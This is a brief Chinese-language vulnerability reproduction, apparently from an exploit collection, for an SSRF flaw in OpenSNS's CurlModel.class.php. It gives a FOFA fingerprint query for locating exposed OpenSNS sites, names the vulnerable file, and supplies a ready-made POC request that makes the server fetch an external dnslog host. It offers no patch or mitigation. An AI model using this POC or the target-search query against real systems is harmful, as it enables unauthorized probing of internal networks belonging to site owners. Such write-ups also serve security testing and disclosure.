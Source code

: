 # OpenSNS CurlModel.class.php SSRF漏洞

## 漏洞描述

OpenSNS CurlModel.class.php文件中curl方法存在SSRF漏洞，通过漏洞攻击者可以探测内网信息

## 漏洞影响

```
OpenSNS
```

## FOFA

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154436896](./images/202205181544965.png)

存在漏洞的文件为 `Application/Admin/Model/CurlModel.class.php`

![image-20220518154502605](./images/202205181545686.png)

构造POC

```
/?s=weibo/share/shareBox&query=app=Admin%26model=Curl%26method=curl%26id=http://92aq2z.dnslog.cn
```

![image-20220518154516760](./images/202205181545840.png)